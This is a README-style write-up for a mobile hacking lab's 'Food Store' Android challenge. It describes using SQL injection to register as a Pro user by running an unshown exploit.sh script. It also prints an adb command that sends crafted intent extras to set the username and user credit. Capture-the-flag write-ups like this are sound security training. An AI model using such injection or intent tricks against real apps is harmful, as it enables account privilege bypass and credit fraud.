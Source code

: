 # Writeup for Food Store challenge.

>here's how to use the scripts only as proof of concept.

Check the full Writeup at my blog --> [Food Store](https://blog.parad0x.vip/blog/2024/08/15/FoodStore.html)
---

## Objective
Exploit the SQL Injection vulnerability, allowing you to register as a Pro user, bypassing standard user restrictions.

## SQL injection

Just run:`./exploit.sh`
Make sure that the android device is connected and the adb is running.

<img width="335" alt="MHL_foodStore_4" src="https://github.com/user-attachments/assets/0b49e2bd-00a5-4447-8caf-d4cac449f93f">


## BONUS INTENT EXPLOIT
The following command will open the app and by sending a crafted deep link

```sh
adb shell am start \
-n com.mobilehackinglab.foodstore/.MainActivity \
--es USERNAME "parad0x" \
--ei USER_CREDIT "1337"
```

<img width="762" alt="MHL_foodStore_5" src="https://github.com/user-attachments/assets/823411e3-2a23-45c8-93e4-4cc3c0265f6d">


## Conclusion

On my blog, I'll cover all the steps, how it's possible to change the value on the screen and exploit a SQLi.
